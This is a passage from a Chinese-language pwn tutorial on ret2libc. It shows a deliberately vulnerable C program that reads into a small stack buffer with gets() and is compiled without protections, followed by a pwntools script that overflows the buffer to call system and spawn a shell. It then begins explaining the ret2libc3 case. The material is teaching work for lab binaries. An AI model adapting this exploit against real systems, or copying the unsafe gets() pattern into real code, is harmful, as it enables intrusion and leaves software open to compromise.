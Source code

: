 将上面那个例子稍微改一改就行

```c
#include<stdio.h>
#include<stdlib.h>
void hint() {
    system("echo hello");
}

void run() {
    char buf[0x10];
    gets(buf);
}

int main() {
    run();
    return 0;
}
// x32: gcc ret2libc1.c -o ret2libc1_32 -fno-stack-protector -no-pie -fno-pic -m32
// x64: gcc ret2libc1.c -o ret2libc1_64 -fno-stack-protector -no-pie -fno-pic

```

这里我们只看一下32位的情况，然后我们按照前面将的思路，可以得到栈结构为

![1f63c7a8d4c560eaa8a55a8858422990](images/1f63c7a8d4c560eaa8a55a8858422990.png)  

然后Exploit就可以写出来了

```python
from pwn import*
o = process("./ret2libc2")
gets_plt = 0x8048300
call_system = 0x8048449
bss_addr = 0x804A020
payload = b'a'*24
payload += p32(gets_plt)
payload += p32(call_system)
payload += p32(bss_addr)
o.sendline(payload)
o.sendline("/bin/sh")
o.interactive()

```

![95c7a4bd81b82bb43692d0a7c1a92ab1](images/95c7a4bd81b82bb43692d0a7c1a92ab1.png)  

### ret2libc3

第三种情况就是system和 `/bin/sh` 字符串都没有。我们其实从动态延迟绑定可以知道只要知道了函数的实际地址就可以跳转过去执行函数。而函数在动态链接库中的相对偏移量是固定的，例如puts函数

![0b6d8e00d2081fca40f3367db3a2dcdb](images/0b6d8e00d2081fca40f3367db3a2dcdb.png)  
